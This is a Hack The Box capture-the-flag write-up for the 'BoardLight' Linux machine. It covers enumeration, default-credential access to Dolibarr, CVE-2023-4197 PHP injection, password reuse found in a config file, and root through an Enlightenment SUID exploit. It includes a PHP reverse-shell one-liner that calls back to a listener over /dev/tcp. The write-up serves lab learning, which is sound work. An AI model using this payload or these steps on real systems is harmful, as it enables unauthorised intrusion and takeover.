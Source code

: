 ```yaml
---
title: "BoardLight"
topics:
    [
        "#enumeration",
        "#dolibarr",
        "#CVE-2023-4197",
        "#RCE",
        "#CVE-2022-37706",
        "#gobuster",
        "#dirsearch",
    ]
description: "An easy rated Linux box that emphasizes and develops enumeration skills, both externally and internally. Foothold is obtained through an authenticated RCE that exploits improper input sanitization. Further enumeration once the low level user is obtained reveals a plaintext password that is reused by another user, allowing escalation of privileges. Finally, root access is obtained through a zero-day exploit found in the Enlightenment Window Manager."
shortDescription: "The writeup for 'BoardLight' on Hack the Box"
pubDate: "5/30/2024"
heroImage: "../../assets/images/BoardLight.png"
heroAlt: "The BoardLight machine card on Hack the Box"
difficulty: "Easy" # easy, medium, hard, insane
os: "Linux" # windows, linux
isActive: true
---
```


## Table of Contents

## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```

![nmap scan](../../assets/images/boardlight-nmap.webp)

This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.

![homepage](../../assets/images/boardlight-80-homepage.webp)

There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.

![contact form](../../assets/images/boardlight-80-contact-form.webp)

Good to have in our back pocket but I start running `gobuster` before doing anything else.

![gobuster](../../assets/images/boardlight-80-gobuster.webp)

We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.

![portfolio error](../../assets/images/boardlight-80-portfolio.webp)

Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.

![gobuster vhost](../../assets/images/boardlight-gobuster-vhost.webp)

That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...

![dolibarr admin login](../../assets/images/boardlight-dolibarr-login.webp)

Without even really thinking about it, I immediately tried, `admin:admin` and it worked.

![dolibarr admin page](../../assets/images/boardlight-dolibarr-admin-panel.webp)

![doh](../../assets/images/doh.gif)

Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```

![www-data user](../../assets/images/boardlight-www-data.webp)

We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.

![linpeas users](../../assets/images/boardlight-linpeas-users.webp)

If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out

![conf.php](../../assets/images/boardlight-conf-php.webp)
^entire config not shown

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!

![larissa ssh](../../assets/images/boardlight-ssh-larissa.webp)

![user flag](../../assets/images/boardlight-user.webp)

Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.

![enlightenment](../../assets/images/boardlight-linpeas-enlightenment.webp)

#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.

![boardlight-root-privesc](../../assets/images/boardlight-root-privesc.webp)

And that's a wrap.

![root](../../assets/images/boardlight-root.webp)

## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
